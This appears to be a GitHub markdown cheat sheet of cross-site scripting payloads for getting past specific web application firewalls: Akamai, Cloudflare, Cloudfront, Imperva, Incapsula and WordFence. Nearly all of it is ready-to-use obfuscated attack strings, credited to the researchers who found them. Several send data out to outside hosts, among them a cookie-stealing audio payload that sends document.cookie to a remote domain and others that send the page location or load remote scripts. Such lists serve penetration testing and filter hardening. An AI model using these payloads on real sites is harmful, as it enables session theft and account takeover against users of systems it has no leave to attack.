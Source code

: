 # XSS Payloads for WAF Bypass

## Akamai XSS Payloads

<style>@keyframes a{}b{animation:a;}</style><b/onanimationstart=prompt`${document.domain}&#x60;>
<marquee+loop=1+width=0+onfinish='new+Function`al\ert`1``'>
<svg><circle><set onbegin=prompt(1) attributename=fill>
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
"%3balert`1`%3b"
asd"`> onpointerenter=x=prompt,x`XSS`
<x onauxclick=import('//1152848220/')>click
<x onauxclick=a=alert,a(domain)>click -@niksthehacker
<x onauxclick=import('//1152848220/')>click
<x onauxclick=import('//xss/')>click
\"<>onauxclick<>=(eval)(atob(`YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==`))>+<sss
{{constructor.constructor(alert`1`)()}}
javascript:new%20Function`al\ert`1``;
https://twitter.com/xhzeem/status/1378316651431612422
https://twitter.com/xhzeem/status/1377992310974218245
<script>Object.prototype.BOOMR = 1;Object.prototype.url='https://portswigger-labs.net/xss/xss.js'</script> -https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
"><a/\test="%26quot;x%26quot;"href='%01javascript:/*%b1*/;location.assign("//hackerone.com/stealthy?x="+location)'>Click -@stealthybugs

## Cloudflare XSS payloads

<a"/onclick=(confirm)()>Click Here!
Dec: <svg onload=prompt%26%230000000040document.domain)>
Hex: <svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
<--%253cimg%20onerror=alert(1)%20src=a%253e --!>
<a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'>
javascript:{ alert`0` }
1'"><img/src/onerror=.1|alert``>
<img src=x onError=import('//1152848220/')>
%2sscript%2ualert()%2s/script%2u
<svg on onload=(alert)(document.domain)>
<img ignored=() src=x onerror=prompt(1)>
<svg onx=() onload=(confirm)(1)>
“><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;
<svg on =i onload=alert(domain) (working)
<svg/onload=location/**/='https://your.server/'+document.domain>
<svg onx=() onload=window.alert?.()> (working)
test",prompt%0A/*HelloWorld*/(document.domain) (working)- @Brutelogic
"onx+%00+onpointerenter%3dalert(domain)+x" (working)- @Brutelogic
"><svg%20onload=alert%26%230000000040"1")> (working)- @IamRenganathan
%27%09);%0d%0a%09%09[1].find(alert)//
"><img src=1 onmouseleave=print()> - @itsgeekymonk
<svg on onload=(alert)(document.domain)> -@zapstiko
<svg/on%20onload=alert(1)> (working) -@aufzayed
<img/src=x onError="`${x}`;alert(`Ex.Mi`);"> -@ex_mi

## Cloudfront XSS payloads

">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>
">'><details/open/ontoggle=confirm('XSS')>
6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/
&quot;&gt;&lt;img src=x onerror=confirm(1);&gt;

## Imperva XSS payloads

<x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme   (working)-Pinaki @0xInfection(Make sure to URL encode the payload properly)
tarun"><x/onafterscriptexecute=confirm%26lpar;)// -@sratarun
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click (workin)Pinaki @0xInfection (Make sure the applications decodes the payload from encoded)
<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];"> - @xsspayloads
<svg onload\r\n=$.globalEval("al"+"ert()");>
<bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click Pinaki @0xInfection
<sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//</div"> -@AldenAous
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='test'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />tap

## Incapsula XSS payloads

<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<iframe/onload="var b = 'document.domain)'; var a = 'JaV' + 'ascRipt:al' + 'ert(' + b; this['src']=a">
<audio autoplay onloadstart=this.src='hxxps://msf.fun/?c='+document["cook"+"ie"]' src=x>
<img/src=q onerror='new Function`al\ert`1``'>
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
<svg onload\r\n=$.globalEval("al"+"ert()");>
[1].map(alert)   or    (alert)(1)
<"><details/open/ontoggle="jAvAsCrIpT&colon;alert&lpar;/xss-by-tarun/&rpar;">XXXXX</a>
[1].find(confirm)
<svg/onload=self[`aler`%2b`t`]`1`>
%22%3E%3Cobject%20data=data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%3E%3C/object%3E
'-[document.domain].map(alert)-'

## WordFence XSS payloads

ax6zt%2522%253e%253cscript%253ealert%2528document.domain%2529%253c%252fscript%253ey6uu6 -@naglinagli
<meter onmouseover="alert(1)" -@manjith27945363
'">><div><meter onmouseover="alert(1)"</div>" -@manjith27945363
>><marquee loop=1 width=0 onfinish=alert(1)> -@manjith27945363
Wordfence 7.4.2
<a href=&#01javascript:alert(1)> -@brutelogic
<a/href=%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x0a;:alert(1)>please%20click%20here</a>

